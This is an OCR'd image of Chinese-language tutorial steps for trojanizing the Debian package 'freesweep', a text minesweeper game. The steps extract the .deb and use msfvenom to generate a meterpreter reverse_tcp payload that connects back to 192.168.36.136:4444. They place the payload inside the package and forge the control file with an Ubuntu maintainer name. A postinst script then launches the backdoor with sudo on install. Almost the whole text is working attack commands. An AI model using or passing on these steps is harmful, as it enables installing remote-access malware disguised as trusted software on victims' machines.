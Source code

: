 ```
将软件包移动到 root 目录 
mv /var/cache/apt/archives/freesweep_1.0.1-2_amd64.deb ~/ 
```

```
解压软件包到 free 目录 
dpkg -x freesweep_1.0.1-2_amd64.deb free 
```

```
生成恶意代码到软件包源文件中 
msfvenom -a x64 --platform linux -p linux/x64/meterpreter/reverse_tcp  LHOST=192.168.36.136 LPORT=4444 -b "\x00" -f elf -o  /root/free/usr/games/freesweep_sources 
 
拓展：生成软件包时无论是 payload 的和软件包信息都需要选择能够在目标操作系统上执行的。
```

```
创建软件包信息目录 
mkdir /root/free/DEBIAN && cd /root/free/DEBIAN
```

```
创建软件包的信息文件 
tee /root/free/DEBIAN/control << 'EOF' 
 
	Package: freesweep 
	Version: 1.0.1-1 
	Section: Games and Amusement *
	Priority: optional 
	Architecture: amd64
	Maintainer: Ubuntu MOTU Developers (ubuntu-motu@lists.ubuntu.com) 
	Description: a text-based minesweeper Freesweep is an implementation of the popular  minesweeper game, where one tries to find all the mines without igniting any, based on  hints given by the computer. Unlike most implementations of this game, Freesweep works  in any visual text display - in Linux console, in an xterm, and in most text-based terminals  currently in use. 
	EOF 
```

```
创建 deb 软件包，安装后脚本文件，来加载后门 
tee /root/free/DEBIAN/postinst << 'EOF' 
	#!/bin/bash 
	sudo chmod 2755 /usr/games/freesweep_sources 
	sudo /usr/games/freesweep_sources &  
	EOF 
	
第三段是我们要执行的恶意代码 
& 是将命令放到后台运行 
```

```
给脚本文件添加执行权限 
chmod 755 /root/free/DEBIAN/postinst 
```
